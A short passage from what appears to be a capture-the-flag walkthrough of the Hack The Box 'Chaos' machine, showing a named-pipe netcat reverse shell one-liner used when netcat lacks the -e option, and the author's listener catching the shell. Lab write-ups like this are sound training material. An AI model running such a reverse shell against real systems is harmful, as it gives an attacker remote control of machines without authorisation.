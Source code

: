 ![9e85d97e.png](/assets/images/posts/chaos-htb-walkthrough/9e85d97e.png)
</a>

Awesome. Too bad, the `-e` is not available. Fret not, we can still make do with something like this.

```
rm -rf /tmp/p; mknod /tmp/p p; /bin/bash 0</tmp/p | nc 10.10.13.52 1234 >/tmp/p
```

True enough, a reverse shell appears on my `nc` listener.

<a class="image-popup">
![1a482f42.png](/assets/images/posts/chaos-htb-walkthrough/1a482f42.png)
</a>

